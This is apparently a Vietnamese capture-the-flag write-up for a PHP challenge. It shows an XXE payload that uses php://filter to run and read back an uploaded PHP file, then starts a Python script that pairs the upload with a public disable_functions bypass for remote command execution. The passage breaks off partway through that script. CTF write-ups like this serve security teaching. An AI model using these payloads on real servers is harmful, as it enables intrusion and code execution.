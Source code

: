 Ta được:
![result](31linephp/result1.png)
_respone_

XXE thành công nhưng sẽ không có cách nào tìm được file flag vì XXE theo cách này chỉ có thể retrieve file từ xa bên phía server 😐 vì vậy mình đã không giải ra.

Sau khi đọc wu thì mới phát hiện ra rằng file ta upload lên được xóa ở cuối `unlink()` sau khi được parse XML. Điều này có nghĩa là nếu ta upload một file PHP và truy cập file đó một lần nữa thông qua XML. Và dùng `php://filter` để encode base64 thì có thể lấy được output của file php (sau khi thực thi bên phía server) qua response. Để ý một điểm nữa là file upload được lưu tại thư mục `var/www/html/upload/$id/$name` nên suy đoán thư mục root của web server sẽ là `/var/www/html`. Suy ra ta có thể access đến file upload bên phía server thông qua đường dẫn <http://62.84.114.238/upload/$id/$FILENAME> 

```xml
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=http://62.84.114.238/upload/89e05a8b6e028eeda25a0845b9b3daaa/payload.php" >]>
<creds>
<user>&xxe;</user>

<pass></pass>

</creds>
<?php phpinfo(); ?>
```

Ta chỉnh lại file upload với `phpinfo();` và để server thực thi được file php thì chỉnh luôn extension thành `.php`
![result](31linephp/result2.png)
_respone_

Thành công base64 decode và mở bằng trình duyệt:
![result](31linephp/result3.png)
_phpinfo_

😑 Các function có thể dùng để rce đều bị filter.

Nhưng cái `disable_functions` này có thể bypass được dựa vào bug 0day được published [PoC](https://github.com/mm0r1/exploits/tree/master/php-filter-bypass). 
Tại thời điểm publish, bug này có thể dùng để bypass hầu như mọi PHP versions và khai thác dựa trên `memory corruption`.

## _Khai thác_
```py
import requests
import re
import base64

TARGET = 'http://62.84.114.238'

while 1:
    COMMAND = str(input('$ '))
    with open('payload.php', 'w') as f:
        f.write("""
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=http://62.84.114.238/upload/ebb8f496d6241dfd214351614c852de7/payload.php" > ]>
<creds>
    <user>&xxe;</user>    
    <pass>mypass</pass>
</creds>
""" + """
<?php 
# PHP 7.0-8.0 disable_functions bypass PoC (*nix only)
```
